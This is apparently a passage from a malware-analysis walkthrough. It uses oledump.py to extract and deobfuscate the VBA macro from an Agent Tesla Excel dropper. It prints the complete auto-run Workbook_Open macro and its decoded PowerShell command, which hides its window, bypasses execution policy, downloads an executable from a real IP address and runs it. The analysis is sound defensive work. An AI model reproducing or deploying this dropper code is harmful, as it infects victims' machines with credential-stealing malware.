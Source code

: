 So, let's check it out! Let's run the command `oledump.py agenttesla.xlsm -s 4`. This command will run the oledump and look into the actual data stream of interest using the parameter `-s 4`,  wherein the `-s` parameter is short for `-select`  and the number four(`4`) as the data stream of interest is in the 4th place(`A4: M 688 'VBA/ThisWorkbook'`)

```
oledump.py agenttesla.xlsm -s 4
oledump.py agenttesla.xlsm -s 4 --vbadecompress

Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = False
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Private Sub Workbook_Open()
Dim Sqtnew As String, sOutput As String
Dim Mggcbnuad As Object, MggcbnuadExec As Object
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' } �Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
Set Mggcbnuad = CreateObject("WScript.Shell")
Set MggcbnuadExec = Mggcbnuad.Exec(Sqtnew)

```

copy and paste into cyberchef
```
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' } �Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")


find/replace * simple string
find/replace ^ simple string


Sqtnew = "powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } �PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"

```

  
Let's break it down!
